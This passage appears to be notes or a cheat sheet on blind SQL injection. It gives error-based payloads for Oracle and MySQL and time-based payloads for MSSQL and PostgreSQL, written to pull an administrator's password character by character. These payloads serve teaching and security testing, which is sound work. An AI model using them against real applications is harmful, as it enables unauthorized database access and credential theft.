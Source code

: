 If injecting different boolean conditions makes no difference to the application's response we can force an error using the `1/0`.

_Example of a OracleDB query:_

```
xyz' || (SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE 'a' END) ||'a
xyz' || (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE 'a' END) ||'a
```
If we can get the difference of these two queries we can use substring to retrieve data.

```
xyz' || (SELECT CASE WHEN (LENGTH(password) > 5) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||'a
xyz' || (SELECT CASE WHEN (LENGTH(password) = 15) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||'a
```

```
xyz' || (SELECT CASE WHEN (SUBSTR(password, 1, 1) > 'm') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||'a
xyz' || (SELECT CASE WHEN (SUBSTR(password, 1, 1) = 's') THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator') ||'a
```

_Example of Mysql query:_

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## Triggering time delays (time based)

Since we are not aware about any type of error or output we can use sleeps if the applications **works synchronously**.

```
'; IF (1=2) WAITFOR DELAY '0:0:10'-- -
'; IF (1=1) WAITFOR DELAY '0:0:10'-- -
```

If it loads for 10 seconds extra we know that the database is processing our `sleep()` command.

We can use this info to obtain information.

* _Example of mssql_

```
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

* _Example of postgresql_

```
'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END
```
